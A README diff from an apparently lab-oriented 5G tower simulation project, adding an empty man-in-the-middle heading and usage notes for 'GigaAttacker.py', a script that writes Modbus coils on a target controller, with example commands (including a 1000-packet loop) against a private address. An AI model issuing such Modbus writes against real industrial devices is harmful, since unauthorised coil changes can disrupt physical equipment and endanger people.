

Before and after one commit to frankuman/5imFortress, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/README.md
+++ b/README.md
@@ -165,9 +165,15 @@ The graph provides a visual representation of the bitrate for each tower over th
 
 Feel free to explore these features to optimize the performance and configuration of the 5G towers within the system.
 
+### MiTM with Ettercap
+
+
 ### GigaAttacker
-
-#### Attack commands coming soon!
+GigaAttacker.py is a simple script that sends modbus packets to change coils, it also has a loop function if multiple packets are to be sent.
+`python gigattacker.py -h` for help options
+Examples:
+`python gigaattacker.py -write-coil -addr 1 -val 0 -ip 192.168.0.100 -p 502` writes the coil on register 1 with value 0 for the ip 192.168.0.100 on port 502
+`python gigaattacker -write-coil -addr 1 -val 0 -ip 192.168.0.100 -loop 1000 -t 0.5` does the same as above but 1000 times with a timeout of 0.5 seconds
 
 ## Known Issues
 Known issues will be presented here
```
